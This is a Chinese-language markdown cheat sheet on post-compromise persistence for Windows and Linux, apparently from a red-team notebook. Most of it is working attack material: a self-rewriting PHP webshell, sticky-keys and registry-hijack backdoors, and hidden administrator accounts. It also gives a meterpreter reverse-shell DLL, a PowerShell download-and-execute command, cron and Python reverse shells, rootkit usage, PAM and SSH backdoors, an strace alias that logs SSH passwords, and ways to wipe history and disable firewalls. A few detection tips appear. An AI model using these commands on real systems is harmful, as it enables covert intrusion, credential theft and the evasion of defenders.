




# 权限维持


## windows

### php不死马

```
<?php
ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去
$interval = 5; // 每隔*秒运行
do {
$filename = 'test.php';
if(file_exists($filename)) {
echo "xxx";
}
else {
$file = fopen("test.php", "w");
$txt = "<?php @eval($_POST[cmd]); ?>\n";   //木马密码cmd
fwrite($file, $txt);
fclose($file);
eval(system("Attrib +s +a +h +r test.php")); //隐藏文件
}
sleep($interval);
} while (true);
?>
```

### 粘滞键后门

```
move C:\windows\system32\sethc.exe C:\windows\system32\sethc.exe.bak
Copy C:\windows\system32\cmd.exe C:\windows\system32\sethc.exe
```

1. 将sethc.exe的拥有者改为administrator
2. 运行上面的话即可
3. 五次shift即可cmd

### 文件隐藏

`Attrib +s +a +h +r 1.php` 隐藏文件或者目录

### 文件保护

http://www.xoslab.com/efl.html   //windows文件保护 

1. 一般只留第一个
2. sc qc/stop/delete xlkfs    //检查/停止/删除这个文件保护的服务  

### todesk

官方文档https://www.todesk.com/helpcenter/solo-65.html

1. ToDesk_4.3.2.1.exe /S                    todesk静默安装
2. 将下面脚本保存为2.bat

```
@echo off
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -setpasswd 123456') do echo %%i
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -status') do echo %%i
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -autostart on') do echo %%i
Pause
```

1. 设置密钥123456，开机自启 
2. 如果目标机器已安装todesk
   1. 这种意外情况对于我们来说就挺，应该是那种想到了开心的事的感觉。其实在这里要说的是另一种方法获取识别码以及连接密码，我们只需要找到todesk的根目录即可，然后查看config.ini，在cinfig.ini可以找到识别码以及加密的密码。

### 添加用户开3389

```
net user qianxin QanXin.Nb123 /add
net localgroup administrators qianxin /add
netsh firewall set opmode disable
netsh advfirewall show allprofiles
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
netstat -anop tcp | find "3389"
```

### 映像劫持技术

1. 打开注册表计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\	
2. 新建一个项ziye.exe ，右侧新增一个字符串，名字是Debugger	 
3. 值为要执行的程序`C:\Windows\System32\cmd.exe`(必须是这个这个斜杠)
4. 这个效果就是只要执行任意一个叫做ziye.exe的程序(常用sethc.exe粘滞键)，就会运行cmd.exe
5. 一般可以是cmd，木马等

### 策略组脚本维持(第一次可能会蓝屏)


1. 输入gpedit.msc 打开组策略，打开 windows设置 脚本 里面又关机和开机
2. 在C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup放入开机需要自启动的文件

### 影子账户

通常在拿到服务器后会创建一个带$符号的账户，因为在常规cmd下是无法查看到的。

1. 建立新的用户

```
net user cjc 123 /add 
net localgroup administrators cjc /add   
```

1. 注册表打开HEKY_LOCAL_MACHINE\SAM\SAM\Domains\Account\User 到SAM没有子目录，说明没有权限，赋权，重新打开注册表即可 

   ```
   regedit										//powershell输入打开注册表
   ```

   

2. 将1F4下`F项`的值复制到3EB下`F项`里面，替换原有数据 双击F项，右键全选，右键复制，同流程覆盖

   

   

3. 把3E8和cjc导出来 

   

4. 删除用户

   ```
   net user cjc /del				//删除用户
   ```

   


5. 双击导出来的两个注册表进行导入

6. 开远控

   ```
   REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
   ```

7. RDP连接成功

### Powershell后门

Powershell配置文件其实就是一个powershell脚本，他可以在每次运行powershell的时候自动运行，所以可以通过向该文件写入自定义的语句用来长期维持权限

1. 查看当前是否存在配置文件

```
echo $profile
Test-path $profile
```

1. 如果返回false则需要创建一个 `New-Item -Path $profile -Type File –Force`
2. 然后写入命令，这里我以创建一个用户为目标，也可以写成反弹shell的

```
net user qianxin$ QanXin.Nb123 /add & net localgroup administrators qianxin$ /add
```

1. 这里的C:\1.bat是我的后门文件位置

```
$string = 'Start-Process "C:\1.bat"'
$string | Out-File -FilePath $profile -Append
more $profile
```

1. 重新打开powershell就会自动执行,创建账户
2. 如果失败，则以管理员权限打开powershell运行set-ExecutionPolicy RemoteSigned并摁回车即可

### 打印机(Monitors)权限维持

项目地址 https://github.com/Al1ex/Monitor

1. 项目下载下来，自己编译也可以，也可以用现成的

```
#include "Windows.h"
int main() {
MONITOR_INFO_2 monitorInfo;
TCHAR env[12] = TEXT("Windows x64");
TCHAR name[12] = TEXT("Monitor");
TCHAR dll[12] = TEXT("test.dll");
monitorInfo.pName = name;
monitorInfo.pEnvironment = env;
monitorInfo.pDLLName = dll;
AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
return 0;
}
```

pName //监视器名称 pEnvironment //环境架构 pDLLName //监视器DLL文件的名称

1. msf生成dll `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll`
2. 将shell.dll复制到目标主机的system32目录下，之后重命名为test.dll(也就是上面的 PDLLName，你也可以自己修改为自己喜欢的，总之随意) `copy C:\temp\shell.dll C:\Windows\System32\test.dll`
3. 将Monitors.exe也移动到C:\Windows\System32，这是执行Monitors.exe即可反弹shell
4. `reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ`    //塞到开机启动项里 
5. 打开注册表查看`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`是否写入成功 
6. msf监听，受害机重启即可收到监听

### 利用安全描述符隐藏服务后门进行权限维持

将后门程序注册为自启动服务是我们常用的一种进行权限维持的方法，通常可以通过sc或者powershell来进行创建。本文创建服务名为.NET CLR Networking 3.5.0.0的服务(什么名字都可以)

1.  

```
cmd创建自启动服务
sc create ".NET CLR Networking 3.5.0.0" binpath= "cmd.exe /k C:\Users\administrator\beacon.exe" depend= Tcpip obj= Localsystem start= auto
powershell创建自启动服务
new-service –Name ".NET CLR Networking 3.5.0.0" –DisplayName ".NET CLR Networking 3.5.0.0" –BinaryPathName "cmd.exe /k C:\Users\administrator\beacon.exe" –StartupType AutomaticDelayedStart
```

1. 但创建的服务很容易被发现 通过 sc query 和 Get-Service 很容易发现，直接查询服务也能看见  开启服务`sc start ".NET CLR Networking 3.5.0.0"`
2. 使服务拒绝访问

```
sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

然后通过sc与get-server查找服务均无结果：

```
sc query |findstr ".NET CLR Networking 3.5.0.0"
get-service | findstr ".NET CLR Networking 3.5.0.0"
```

在知道服务名的前提下查询会显示拒绝访问： `sc query ".NET CLR Networking 3.5.0.0"` 

1. 但这样做有一个问题：在注册表中很容易看到异常value。 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\.NET CLR Networking 3.5.0.0`  我们可以通过修改注册表的DACL来拒绝对值的查询，达到隐藏异常值的效果。 这里给出一个通过powershell修改注册表项的访问权限的简单脚本： 将这个脚本保存为1.ps1

```
function Server-Sddl-Change{
[CmdletBinding()]
param
(
[parameter(Mandatory=$false)][String]$Name
)
$ROOT = "HKLM:\SYSTEM\CurrentControlSet\Services\"
$S = $ROOT+$NAME
$acl = Get-Acl $S
$acl.SetAccessRuleProtection($true, $false)
$person = [System.Security.Principal.NTAccount]"Everyone"
$access = [System.Security.AccessControl.RegistryRights]"QueryValues"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Deny"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
$person = [System.Security.Principal.NTAccount]"Everyone"
$access =
[System.Security.AccessControl.RegistryRights]"SetValue,CreateSubKey,EnumerateSu
bKeys,Notify,CreateLink,Delete,ReadPermissions,WriteKey,ExecuteKey,ReadKey,Chang
ePermissions,TakeOwnership"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
Set-Acl $S $acl
}
```

kali上起一个http `python -m http.server 8080` 受害机远程加载powershell脚本：

```
powershell.exe -exec bypass -nop -w hidden -c "IEX((new-object net.webclient).downloadstring('http://192.168.1.147/1.ps1'));Server-Sddl-Change -Name '.NET CLR Networking 3.5.0.0'"
```


1. 成功隐藏，只要电脑重启就可以获得后门

### lls后门

web服务器上一般都 支持net 所以可以考虑利用net iis做一个后门 项目地址 https://github.com/WBGlIl/IIS_backdoor 在网站目录下新建一个bin文件夹 这个文件夹 存放dll集 把IIS_backdoor_dll.dll存放在这里面 新建 web.config 或者在原有的文件上添加 内容

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<modules>
<add name="IIS_backdoor" type="IIS_backdoor_dll.IISModule" />
</modules>
</system.webServer>
</configuration>
```

打开 IIS_backdoor_shell 把网址填写进去即可 

## linux

### crontab计划任务弹shell

1. crontab默认是开的

```
crontab -l   //列出任务
crontab -e   //编辑任务
```

1. crontab -e `* * * * * /bin/bash -c '/bin/sh -i >&/dev/tcp/192.168.1.135/4444 0>&1';\r%100c\n`计划任务反弹shell

### vim python3扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统 正向后门

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
    server=socket(AF_INET,SOCK_STREAM)
    server.bind(('0.0.0.0',11))
    server.listen(5)
    print ('waiting for connect')
    talk, addr = server.accept()
    print ('connect from',addr)
    proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
        stdout=talk, stderr=talk, shell=True)
```

反向后门

```
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("192.168.241.128", 6666));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
p = subprocess.call(["/bin/sh", "-i"]);
```

1. 这里提供了两种后门，尽量用正向的，将后门保存为dir.py
2. `systemctl stop firewalld.service`关防火墙
3. `nohup python3 dir.py > /dev/null 2>&1 &`  可以看到是python  会开启一个11端口的正向后门kali使用nc直接连接即可 `nohup vim -E -c "pyfile dir.py"&`   这样就可以使vim了
4. 隐藏进程

```
mkdir null
mount --bind null /proc/5480
netstat -anpt
```

\#mount --bind命令是将前一个目录挂载到后一个目录上，所有对后一个目录的访问其实都是对前一个目录的访问，并且会将前一个目录路径隐藏起来（注意这里只是隐藏不是删除，数据未发生改变，仅仅是无法访问了）。 umount /proc/5480进行解除挂载

### inetd服务后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。所以，如果我们已经在目标系统的inetd配置文件中配置好，那么来自外部的某个socket是要执行一个可交互的shell，就获取了一个后门。

1. 安装服务 sudo apt install openbsd-inetd
2. 修改默认端口 sudo vim /etc/services 添加woot 4444/tcp #evil backdoor service
3. 修改/etc/inetd.conf  woot stream tcp nowait root /bin/bash bash -i
4. sudo inetd    运行服务
5. kali使用nc连接 ，nc   192.168.1.146   4444

### Rootkit

rootkit分为内核级和应用级两种:内核级的比如：Diamorphine，应用级的比如：Mafix Mafix 是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现远程登陆的特点是配置简单并可以自定义验证密码和端口号。应用级rookit，主要替换ls、ps、netstat命令来隐藏文件,检测：使用相关检测工具，比如：unhide

#### Diamorphine

1. Diamorphine是一个C语言写的，运行于linux系统的rootkit，支持linux 内核版本2.6.x/3.x/4.x。(uname -a查看服务器内核版本)
2. 安装Diamorphine-root运行

```
git clone https://github.com/m0nad/Diamorphine.git
cd Diamorphine&&make
insmod diamorphine.ko
```

1. 用法

```
1. 低权限获得root权限(指定某用户进程，使某用户变成root)
kill -64 用户的pid    //一般是0,不可逆除非重启或者注销该用户
2. 进程隐藏
kill -31 pid号 (对同一个pid号使用一次是隐藏，使用第二次是显示)
3. 隐藏模块
kill -63 pid号 (如果分不清模块还是进程，lsmod 一下，你可以看到所有模块名称)
4. 创建隐藏文件
只要是diamorphine_secret开头的文件名或者文件夹，就会自动隐藏
5. 查找这个后门
diamorphine 这个模块通过insmod安装后，系统启动时候是不会显示的，如果需要显示，需要执行  kill -63 0       #如果不执行kill -63 0，执行lsmod是查看不到有这个模块的，执行后再执行lsmod | grep diamorphine 即可看到这个模块。
6. 卸载diamorphine模块，需要root权限
rmmod diamorphine
```

### 协议后门

在一些访问控制做的比较严格的环境中，由内到外的TCP流量会被阻断掉。但是对于UDP(DNS、ICMP)相关流量通常不会拦截。

#### ICMP

1. 主要原理就是利用ICMP中可控的data字段进行数据传输，具体原理请参考: https://zhuanlan.zhihu.com/p/41154036
2. 开源工具：ICMP后门项目地址：https://github.com/andreafabrizi/prism

#### DNS

1. 在大多数的网络里环境中IPS/IDS或者硬件防火墙都不会监控和过滤DNS流量。主要原理就是将后门载荷隐藏在拥有PTR记录和A记录的DNS域中（也可以利用AAAA记录和IPv6地址传输后门），具体请参考：通过DNS传输后门来绕过杀软https://www.anquanke.com/post/id/85431
2. 开源工具：DNS后门项目地址：https://github.com/DamonMohammadbagher/NativePayload_DNS
3. 协议后门检测：对于DNS/ICMP这种协议后门，直接查看网络连接即可，因为在使用过程中会产生大量的网络连接，清除：kill进程、删除文件即可

### PAM后门

1. PAM使用配置 /etc/pam.d/ 下的文件来管理认证方式，应用程序调用相应的配置文件，以加载动态库的形式调用 /lib/security下的模块。 PAM配置可分为四个参数: 模块类型、控制标记、模块路径、模块参数，例如: session requiredpam_selinux.so open 上面提到的 sshd 软链接后门利用的 PAM 机制达到任意密码登录，还有一种方式是键盘记录。原理主要是通过 pam_unix_auth.c 打补丁的方式潜入到正常的 pam 模块中，以此来记录管理员的帐号密码。 利用步骤：复制patch到源代码目录 >>> 打patch >>> 编译 >>> 将生成的pam_uninx.so文件覆盖到/lib/secruity/pam_unix.so下 >>> 修改文件属性 >>> 建立密码保存文件，并设置好相关的权限 >>> 清理日志 >>> ok

```
#确保ssh开启pam支持
vim /etc/ssh/sshd_config
UsePAM yes
#自动化脚本
https://github.com/litsand/shell/blob/master/pam.sh
```

检测

```
1、通过Strace跟踪ssh
ps axu | grep sshd
strace -o aa -ff -p PID
grep open aa* | grep -v -e No -e null -e denied| grep WR
2、检查pam_unix.so的修改时间
stat /lib/security/pam_unix.so #32位
stat /lib64/security/pam_unix.so #64位
```

清除：`yum reinstall pam`

### 文件属性修改

#### 文件时间修改

`touch -r  旧文件   新文件` 使新文件的时间和旧文件时间相同

#### 文件锁定

在Linux中，使用chattr命令来防止root和其他管理用户误删除和修改重要文件及目录，此权限用ls -al是查看不出来的，从而达到隐藏权限的目的。需要root权限

```
chattr +i evil.php #锁定文件
rm -rf evil.php #提示禁止删除
lsattr evil.php #属性查看
chattr -i evil.php #解除锁定
rm -rf evil.php #彻底删除文件
```

### 历史命令操作

在shell中执行的命令，不希望被记录在命令行历史中，如何在linux中开启无痕操作模式呢？

#### 只针对你的工作关闭历史记录

`空格set +o history` //#备注：并且由于空格的缘故，该命令本身也不会被记录 上面的命令会临时禁用历史功能，这意味着在这命令之后你执行的所有操作都不会记录到历史中，然而这个命令之前的所有东西都会原样记录在历史列表中。 要重新开启历史功能，执行下面的命令： `空格set -o history`  //	恢复原状

#### 从历史记录中删除指定的命令

```
history | grep "keyword"
history -d [num]
删除大规模历史操作记录，这里，我们只保留前150行：
sed -i '150,$d' ~/.bash_history
```

#### passwd增加用户

/etc/passwd 用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL /etc/shadow /etc/shadow 各部分含义： 用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用

1. 增加超级用户

```
perl -le 'print crypt("passwd","salt")'     //结果sadtCr0CILzv2
echo "m123:sadtCr0CILzv2:0:0:root:/root:/bin/bash" >> /etc/passwd
```

### suid后门

当一个文件所属主的x标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

```
SUID权限仅对二进制程序有效。
执行者对于该程序需要具有x的可执行权限
本权限仅在执行该程序的过程中有效
在执行过程中执行者将具有该程序拥有者的权限
```

创建suid权限的文件：

```
cp /bin/bash /tmp/.woot
chmod 4755 /tmp/.woot
ls -al /tmp/.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot
```

使用文件获得root权限

```
/tmp/.woot
/tmp/.woot -p //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shellhttps://blog.csdn.net/fatshaw/article/details/6171035
```

检查:查找具有suid权限的文件即可

```
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null
```

### SSH后门

#### ssh软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测uid 0 即可认证成功，这样就导致了可以使用任意密码登录: 

```
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
												//开启软连接
ssh root@192.168.1.148 -p12345					//ssh软连接
sudo systemctl stop firewalld					//有防火墙关防火墙
sudo systemctl disable firewalld				//确保firewalld在每次系统启动时都处于关闭状态
```

 http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/ 优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。

#### SSH公钥免密登录

```
ssh-keygen -t rsa //生成公钥
ls ~/.ssh/		//查看公钥位置，在id_rsa.pub里面看公钥
vim authorized_keys //将id_rsa.pub内容放到目标.ssh/authorized_keys里，如果没有需要自己创目录
```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

```
chmod 600 id_rsa
ssh -i id_rsa root@192.168.1.148
```

#### SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。 在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
vim ~/.bashrc
添加alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
source .bashrc    //刷新环境变量
```

`grep -A 9 'password'  /tmp/.sshpwd-1211月111668255299.log`  查看ssh登录密码 


#### SSH脚本后门

脚本在[RuoJi6/HackerPermKeeper (github.com)](https://github.com/RuoJi6/HackerPermKeeper)



解压

```
unzip HackerPermKeeper_v3.0\ \(1\).zip 
```


然后运行`main.py`，需要python3

```
sudo yum update						//更新yum
sudo yum install python3			//安装python3
python3 --version					//查看版本

pip3 install -r requirements.txt	//绑定依赖
```

安装好后再运行main.py

```
python3 main.py --help
python3 main.py -m 1
5
```


然后就可以到生成文件的地方运行`ssh_Soft_link.py`


会开启一个端口，然后去kali（攻击机）ssh登录即可（无需密码）



```
ssh root@192.168.1.203 -p 8811
```

如果提示

说明防火墙没关

使用以下命令停止firewalld服务：

```
sudo systemctl stop firewalld
```

如果要确保firewalld在每次系统启动时都处于关闭状态，可以运行：

```
sudo systemctl disable firewalld
```
